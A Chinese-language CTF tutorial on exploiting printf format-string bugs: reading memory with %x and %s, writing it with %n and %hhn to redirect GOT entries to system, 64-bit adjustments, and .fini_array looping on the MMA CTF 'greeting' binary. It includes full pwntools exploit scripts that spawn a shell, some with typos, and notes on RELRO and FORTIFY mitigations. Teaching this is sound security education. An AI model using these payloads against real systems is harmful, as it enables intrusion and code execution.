# 格式化字符串漏洞利用

## printf函数中得漏洞

printf函数族是c编程中比较常用得函数族，通常使用情况如下：

```c++
    char s[20] = "Hello,world!\n";
    printf("%s",s);
    // 或者为了省事写成如下形式：
    char s[20] = "Hello,world!\n";
    printf(s);
```

由于printf函数族的设计缺陷，当其中第一个参数可被控制时，攻击者将有机会对任意内存地址进行读写操作。

## 利用格式化字符串漏洞实现任意地址读

例`~/format_x86`



showVersion函数调用system函数，然后接着就是一个死循环，并且使用有问题的方式调用printf函数。正常情况下，无论我们输入什么，都会被原样输出：



但是输入一些特殊字符时就不会得到预想的结果：



当我们输入printf可识别的格式化字符串时，printf会将其作为格式化字符串进行解析并输出。原理很简单，形如`printf(“%s”, “Hello world”)`的使用形式会把第一个参数`%s`作为格式化字符串参数进行解析，在这里由于我们直接用printf输出一个变量，当变量也正好是格式化字符串时，自然就会被printf解析。
直接在`call _printf`处下断，然后调试程序，输入一大串`%x.`：




可以发现输出的内容正好时`esp-4`开始往下的一连串数据。所以理论上讲可以通过叠加%x来获取有限范围内的栈数据。此外，还可以通过%s输出字符，即读取对应的参数，并作为指针解析，获取对应地址的字符串并输出。
先尝试输入一个%s



可以看到输出了一个%s后还做了换行，对应栈的数据如下：



栈顶是第一个参数即输入的%s，第二个参数的地址和第一个参数一致，作为地址解析指向%s和回车0x0A。这也就解释了为什么输出一个%s后还换了行。所以，，我们可以通过输入来操作栈，即输入一个地址，再让%s正好对应这个地址，从而输出地址所指向的字符串，实现任意地址读。
通过调试我们可以发现，我们的输入是从第六个参数开始的，所以构造`payload='\x01\x80\x04\x08%x.%x.%x.%x.%s'`，使其打印出地址08048000+1处的字符串即ELF文件加载地址。
由于payload包含不可见字符，所以配合pwntools调试。




可以看到，成功的泄露出0x08048001从的内容。
我们的输入本体恰好在printf读取参数的第六个参数的位置，所以我们把地址布置在开头，使其被printf当做第六个参数。接下来是格式化字符串，使用%x处理掉第二到第五个参数(我们的输入所在地址是第一个参数)，使用%s将第六个参数作为地址解析。不过当输入长度有限制时，这种直接用%x填充到输入参数位置的办法就不可行了。这里就需要用到格式化字符串的另一个特性。
格式化字符串可以使用一种特殊的表示形式来指定处理第n个参数，如输出第五个参数可以写为`%4$s`，第六个为`%5$s`，需要输出第n个参数就是`%(n-1)$[格式化控制符]`。因此有`payload="\x01\x80\x04\x08%5$s"`。

## 使用格式化字符串漏洞任意写

printf有一个特殊的格式化控制符%n，和其他控制输出格式和内容的格式化字符不同的是，这个格式化字符会将已输出的字符数写入到对应参数的内存中。利用这一点，就可以实现对任意地址的写(目的地址可写的前提下)。
程序里有system函数，因此我们在这里可以直接选择劫持一个函数的got表项为system的plt表项，从而执行system(“/bin/sh”)。程序的got表中只有四个函数，且printf函数可以单参数调用，参数又正好是我们输入的。因此我们可以劫持printf为system，然后再次通过read读取”/bin/sh”，此时printf(“/bin/sh”)将会变成system(“/bin/sh”)。所以构造payload如下：

```python
    printf_got = 0x08049778
    system_plt = 0x08048320
    payload = p32(printf_got)+'%'+str(system_plt-4)+'c%5$n'
    # p32(printf_got)占了4字节，所以system_plt要减去4
```

调试可以发现成功劫持printf函数




此时再次发送”/bin/sh”就可以拿shell了。
但是这里还有一个问题，执行时call _printf一行执行时间额外的久，且最后io.interactive()时屏幕上的光标会不停闪烁很长一段时间，输出大量的空字符。使用recvall()读取这些字符发现数据量高达128.28MB。这是因为我们的payload中会输出多达134513436个字符




在实际环境中，一次性传输如此大量的数据可能会导致网络卡顿甚至中断连接。因此，我们必须换一种写exp的方法。
我们知道，在64位下有%lld, %llx等方式来表示四字(qword)长度的数据，而对称地，我们也可以使用%hd, %hhx这样的方式来表示字(word)和字节(byte)长度的数据，对应到%n上就是%hn, %hhn。为了防止修改的地址有误导致程序崩溃，我们仍然需要一次性把got表中的printf项改掉，因此使用%hhn时我们就必须一次修改四个字节。
所以构造新的脚本

```python
    from pwn import *

    def fmt(prev, word, index):
        if prev < word:
            result = word - prev
            fmtstr = "%" + str(result) + "c"
        elif prev == word:
            result = 0
        else:
            result = 256 + word - prev
            fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr

    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
            if size == 4:
                payload += p32(addr + i)
            else:
                payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
            payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
            prev = (target >> i * 8) & 0xff
        return payload
    def forc():
        p = process('./format_x86')
        p.recv()
        payload = fmt_str(5,4,0x08049778,0x08048320)
        p.send(payload)
        p.send('/bin/sh')
        p.interactive()
    forc()
```

或者分别计算:

```python
    printf_got = 0x08049778
    system_plt = 0x08048320

    payload = p32(printf_got)
    payload += p32(printf_got+1)
    payload += p32(printf_got+2)
    payload += p32(printf_got+3)

    paylaod += "%"
    paylaod += str(0x20-16)     # 前面已经输出16个字符（四个p32()），所以要减16
    payload += "c%5$hhn"

    payload += "%"
    payload += str(0x83-0x20)   # 前面已经输出0x20个字符，所以要减0x20
    payload += "c%6$hhn"

    payload += "%"
    payload += str(0x104-0x83) # 前面已经输出了0x83个字节，因此我们需要输出到0x04+0x100=0x104字节（0x100=256），截断后变成0x04
    payload += "c%7$hhn"

    payload += "%"
    payload += str(0x08-0x04)
    payload += "c%8$hhn"
```

对于格式化字符串payload，pwntools也提供了一个可以直接使用的类Fmtstr，具体文档见[pwntools](http://docs.pwntools.com/en/stable/fmtstr.html) ，我们较常使用的功能是`fmtstr_payload(offset, {address:data}, numbwritten=0, write_size=’byte’)`。第一个参数`offset`是第一个可控的栈偏移(不包含格式化字符串参数)，代入我们的例子就是第六个参数，所以是5。第二个字典看名字就可以理解，numbwritten是指printf在格式化字符串之前输出的数据，比如`printf("Hello [var]")`，此时在可控变量之前已经输出了"Hello "共计六个字符，应该设置参数值为6。第四个选择用 `%hhn(byte), %hn(word)`还是`%n(dword)`。所以也可以有以下脚本：

```python
    from pwn import *

    printf_got = 0x08049778
    system_plt = 0x08048320
    payload = fmtstr_payload(5,{printf_got:system_plt})
    p = process('./format_x86')
    p.recv()
    p.send(payload)
    p.send('/bin/sh')
    p.interactive()
```

## 64位下的格式化字符串漏洞利用

例，~/format_x86-64/format_x86-64

.png)

和上一例类似，先查看可控制的栈地址偏移

.png)

调试时可以发现输入在栈顶

.png)

但是64位的传参顺序是rdi, rsi, rdx, rcx, r8, r9，接下来才是栈，所以这里的偏移应该是6而不是0
有了偏移，got表中的printf和plt表中的system也可以直接从程序中获取，我们就可以使用fmtstr_payload来生成payload了

```python
    offset = 6
    printf_got = 0x00601020
    systme_plt = 0x00400460

    payload = fmtstr_payload(offset,{printf_got:system_plt})
    p = process('./format_x86-64')
    p.sendline(payload)
    p.interacetive()
```

运行并发现并不能修改got表中的printf项为plt的system，回头看看payload，很容易发现紧接在\x20\x10\x60三个字符后面的是\x00，而\x00正是字符串结束符号

.png)

由于64位下用户可见的内存地址高位都带有\x00(64位地址共16个16进制数)，所以使用之前构造payload的方法显然不可行，因此我们需要调整一下payload，把地址放到payload的最后。

由于地址中带有\x00，所以这回就不能用%hhn分段写了，所以构造payload构造如下

```python
    offset = 6
    printf_got = 0x00601020
    system_plt = 0x00400460

    payload = "%" + str(system_plt) + "c%6$lln" + p64(printf_got)
```

运行一下发现程序崩溃，实际上`"%" + str(system_plt) + "c"`为第6个参数，`"%6$lln"`为第7个参数，`p64(printf_got)`为第8个参数。
所以这里offset应该为8，另外，第六个参数应当为地址长度的倍数，所以正确的payload为：

```python
    offset = 6
    printf_got = 0x00601020
    system_plt = 0x00400460

    payload = "a%" + str(system_plt-1) + "c%8$lln" + p64(printf_got)
    # 这里需要确保第8个参数为printf_got,第六个参数为修改的整型值，%c由unsigned int得到char，前面的a填充一个字符位，所以system_plt-1
```

.png)

## 使用格式化字符串漏洞使程序无限循环

程序存在循环时，可以利用格式化字符串漏洞getshell，程序中不存在循环的情况下，除了通过ROP技术劫持函数返回到start，也可以通过格式化字符串漏洞实现这一点。

例，`~/MMA CTF 2nd 2016-greeting/greeting`

程序很简单，存在明显的格式化字符串漏洞



不过这里需要注意的是，[sprintf](https://baike.baidu.com/item/sprintf/9703430?fr=aladdin)的作用，函数执行完后s的值应当为`Nice to meet you,[inputs]`。
程序的got表有system，，而且存在格式化字符串漏洞，先计算偏移



这个程序中printf执行完之后就不会再调用其他got表中的函数，这就意味着即使成功触发漏洞劫持got表也无法执行system。这时候就需要我们想办法让程序可以再次循环。
需要知道的是，写代码的时候我们以main函数作为程序入口，但是编译成程序的时候入口并不是main函数，而是start代码段。事实上，start代码段还会调用`__libc_start_main`来做一些初始化工作，最后调用main函数并在main函数结束后做一些处理。大致流程图如下：



在main函数前会调用`.init`段代码和`.init_array`段的函数数组中每一个函数指针。同样的，main函数结束后也会调用`.fini`段代码和`.fini._arrary`段的函数数组中的每一个函数指针。
所以，我们只需要修改`.fini._arrary`数组的第一个元素为start，就可以在main函数执行结束后执行start代码段。
需要注意的是，这个数组的内容在再次从start开始执行后又会被修改，且程序可读取的字节数有限，因此需要一次性修改两个地址并且合理调整payload




可以看到，getnline限制了输入长度为64，且getnline函数中获取输入后将单参数传给strlen，恰好strlen在got表中，所以可以劫持该函数为system，在程序第二次执行时获取输入后即执行system函数。
综上，把fini_array中的第一项指针覆盖为start地址,使之可以重新运行；把strlen_got覆盖为system_plt地址；重新运行后，输入'/bin/sh\x00'，执行strlen时即执行system('/bin/sh\x00')。

所以有如下脚本：

```python
    from pwn import *
    p = process('./greeting')
    elf = ELF('./greeting')

    fini_array = 0x08049934
    start = 0x080484f0
    system_plt = elf.plt['system']
    log.info("system_plt = %#x",system_plt)
    strlen_got = elf.got['strlen']
    log.info("strlen_got%#x",strlen_got)

    p.recv()

    payload = 'aa'  # 填充位，防止错位('Nice to meet you, '长度为18，加上aa后长度为20，刚好为4的整数倍，对齐满足)
    payload += p32(fini_array)  # fini_array第一项(__do_global_dtors_aux 0x080485a0)只有低2字节和start不一致，所以这里只需要修改两个字节
    payload += p32(strlen_got+2)    # 先修改高地址两个字节
    payload += p32(strlen_got)      # 后修改低地址两个字节
    payload += "%" + str((start&0xffff)-32)     # 减去输出的32字节：'Nice to meet you, aa4\x99\x04\x08V\x9a\x04\x08T\x9a\x04\x08'
    payload += "c%12$hn"

    payload += "%" + str(((system_plt>>16)&0xffff)+0x10000-(start&0xffff))
    payload += "c%13$hn"

    payload += "%" + str((system_plt&0xffff)-((system_plt>>16)&0xffff))
    payload += "c%14$hn"

    p.sendline(payload)
    p.sendline('/bin/sh')
    p.interactive()
```



运行结果：



## 一些和格式化字符串漏洞相关的漏洞缓解机制

两个Linux pwn中格式化字符串漏洞常用的利用手段相关的缓解机制RELRO和FORTIFY。

### RELRO

RELRO（Relocation Read Only）即重定位表只读。重定位表即elf文件中的got表和plt表，二者是为程序外部的函数和变量（不在程序里定义和实现的函数和变量，比如read。显然你在自己的代码里调用read函数的时候不用自己写一个read函数的实现）的重定位做准备的。由于重定位需要额外的性能开销，出于优化考虑，一般来说程序会使用延迟加载，即外部函数的内存地址是在第一次被调用时（例如read函数，第一次调用即为程序第一次执行call read）被找到并且填进got表里面的。因此，got表必须是可写的。但是got表可写也给格式化字符串漏洞带来了一个非常方便的利用方式，即修改got表。
当RELRO项为`Partial RELRO`时(checksec)，们可以通过漏洞修改某个函数的got表项（比如puts）为system函数的地址，这样一来，我们执行call puts实际上调用的却是system，相应的，传入的参数也给了system，从而可以执行system(“/bin/sh”)。
而对于RELRO项为`Full RELRO`即该程序的重定位表项全部只读，无论是`.got`还是`.got.plt`都无法修改。当程序开启了`Full RELRO`保护之后，包括格式化字符串漏洞在内，试图通过漏洞劫持got表的行为都将会被阻止。

### FORTIFY

FORTIFY保护措施比较少见，它是一个由GCC实现的源码级别的保护机制，其功能是在编译的时候检查源码以避免潜在的缓冲区溢出等错误。也就是说，加了这个保护之后（编译时加上参数`-D_FORTIFY_SOURCE=2`）一些敏感函数如`read, fgets, memcpy, printf`等等可能导致漏洞出现的函数都会被替换成`__read_chk, __fgets_chk, __memcpy_chk, __printf_chk`等。这些带了chk的函数会检查读取/复制的字节长度是否超过缓冲区长度，通过检查诸如`%n`之类的字符串位置是否位于可能被用户修改的可写地址，避免了格式化字符串跳过某些参数（如直接`%7$x`）等方式来避免漏洞出现。开启了FORTIFY保护的程序会被checksec检出，此外，在反汇编时直接查看got表也会发现chk函数的存在。
